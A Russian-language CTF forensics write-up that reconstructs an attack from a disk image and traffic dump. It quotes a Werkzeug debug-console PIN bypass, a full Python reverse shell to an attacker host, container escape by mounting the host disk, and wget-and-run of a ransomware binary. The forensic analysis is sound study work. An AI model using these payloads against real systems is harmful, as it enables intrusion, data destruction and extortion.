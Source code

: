 # Начало

## Изучение диска

Сначала я увидел `image.img` и `dump.pcapng` (на кали).

Сразу я решил открыть `image.img` через `testdisk` и скопировал себе в папку `image/` некоторые директории из корня:
`bin.usr-is-merged/`, `home/`, `media/`, `opt/`, `root/`, `tmp/`, `etc/`, `lib.usr-is-merged`, `mnt/`, `proc/`, `sbin.usr-is-merged`, `var/`

Сразу обратил внимание, что в `opt/` есть Addition для VirtualBox (эта информация не пригодилась)

Далее я обратил внимание на содержимое `/home/ioal/`. Там была папка `app/`, внутри которой вроде было приложение в докере, но все файлы оканчивались на `.enc` и внутри ничего не было понятно

## Запуск системы

После этого я решил запустить эту систему через

```
qemu-system-x86_64 \
 -m 4096 \
 -drive format=raw,file=image.img \
 -cpu host \
 -smp 6 \
 -machine type=q35,accel=kvm
```

Внутри была Ubuntu 24.04.1 LTS (Noble Numbat) и единственный аккаунт `ioal`

## Попытка входа

Пароль от него я не знал, поэтому решил скопировать себе `/etc/password` и `/etc/shadow`

Я прописал `fdisk --list image.img` и узнал оффсет раздела с убунтой - `4096` (`4096 * 512 = 2097152`)

Далее я создал папку `/mnt/tmp` (на кали) и прописал `sudo losetup --offset 2097152 /dev/loop667 image.img` и `sudo mount /dev/loop667 /mnt/tmp`

Таким образом я скопировал себе `/etc/password` и `/etc/shadow` и попытался узнать пароль от `ioal` с помощью `john`, но, к сожалению, не вышло

Тогда я просто решил `sudo chroot /mnt/tmp/` и через `useradd qwerty`, `passwd qwerty` создал себе пользователя, которому через `usermod qwerty -aG sudo` выдал доступ к `sudo` (я потом еще пожалел о том, что сразу не создал `/home/qwerty`, потому что файловый менеджер уничтожил мне виртуалку сообщениями об ошибке)

Я заметил, что хост называется `fileshare`, а так же его айпи:
- enp0s2: `10.0.2.15/24` (DNS `10.0.2.3`)
- br-4d2c7d1f6f87: `172.18.0.1/16`
- docker0: `172.17.0.1/16`

В `/root/.bash_history` я обнаружил следы, вероятно, организаторов:
```
cd nto-forensics/
ls
cp -r project /home/ioal/app
cd /home/ioal
ls
cd app
ls
cd ../
chown -h
chown --help
chown -hR ioal ./app
ls -al
exit
cd nto-forensics/
ls
ls -al
cd ../
```

И заметил, что в `/home/ioal/` нет никаких файлов

## Создание лога журнала

Дальше я сделал себе свой `system.log` при помощи `sudo journalctl --no-tail > /home/qwerty/main.log`, после чего срезал его до `/home/qwerty/prev.log` (без запуска 26 марта и позже, т.е. только 16 января и 22 января)

Я очень долго копался в логах журанала, но ничего толкового так и не нашел (нашел пару выключений при помощи кнопки выключения, несколько резких выключений, действия AppArmor'а (обычно над фаерфоксом) и всякое другое)

# Продолжение

После всего этого я устал и решил наконец открыть `dump.pcapng` (на кали)

Сначала я вслучайную нажимал на пакеты и в какой-то момент обнаружил в TCP DATA строку
```
root@7a5a67189bc9:/app#
```

И понял, что надо просто просмотреть все пакеты и оценить находки

## Действия в дампе трафика

Последовательно переключая пакеты я понял, что:

Все проделки идут от `10.10.0.12` через `10.10.10.3` (просто ретрансляция) на `172.18.0.3`

Как помнится по айпи на хосте, `172.18.0.0` - это мост докера (значит `172.18.0.3` - это сам сервис)

В докере был запущен python сервис, у которого был путь /console, доступ к которой получил злоумышлиник (`10.10.10.12` через `10.10.10.3`) и нашел там "SECRET"="yqqPfQiFZmXsmnZQYMPF" в разделе <script> в теле HTML

Далее злоумышлиник подобрал url так, что смог обойти пин-код при помощи этого secret'а
```
GET /console?__debugger__=yes&cmd=pinauth&pin=123-456-789&s=yqqPfQiFZmXsmnZQYMPF
```
и получил доступ к python консоли, в которую вписал реверс-шелл
```
/console?&__debugger__=yes&cmd=import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.10.12%22%2C9001))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22bash%22)&frm=0&s=yqqPfQiFZmXsmnZQYMPF
```
Команда реверс-шелла:
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.12",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("bash")
```

И, получил доступ к `root` в докере при помощи `ls /dev`, 'mount /dev/sda2 /mnt`, `cd /mnt/home`

Потом прописал эти команды:
```
cd ioal
rm .*
cd ../
cd ioal
wget http://81.177.221.242:8125/app
```
`wget` пожаловался на то, что директория `app` уже есть (в ней был сервис-докер)
```
ls
cd ../
wget http://81.177.221.242:8125/app
./app
chmod +x app
./app
exit
```
При запуске этот `app` несколько раз написал
```
CUSTOM_write found, patched.
ok
```
И затем
```
Encrypting .//app: Encrypting .//ioal/app/docker-compose.yml: Encrypting .//ioal/app/server/requirements.txt: Encrypting .//ioal/app/server/wait-for-postgres.sh: Encrypting .//ioal/app/server/Dockerfile: Encrypting .//ioal/app/server/templates/index.html: Encrypting .//ioal/app/server/__init__.py: Encrypting .//ioal/app/server/assets/css/listr.pack.css: Encrypting .//ioal/app/server/assets/css/custom.css: Encrypting .//ioal/app/server/assets/css/jquery.filer.css: Encrypting .//ioal/app/server/assets/fonts/fontawesome-webfont.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.ttf: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer-preview.html: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.svg: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.eot: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.cs
```

С помощью этих команд он удалил все файлы в домашней директории `ioal`, после чего поднялся в `/home` и запустил шифровальщик

# Решение задач

Я просто начал выписывать соответствующие пакеты + их содержимое и их номер + время

Когда я дошел до `app` я решил погуглить `"CUSTOM_write found"` и нашел единственную ссылку на проект на гитхабе ([linux-anti-debugging](https://github.com/tobyxdd/linux-anti-debugging/)), который использовал `ptrace` для обфускации


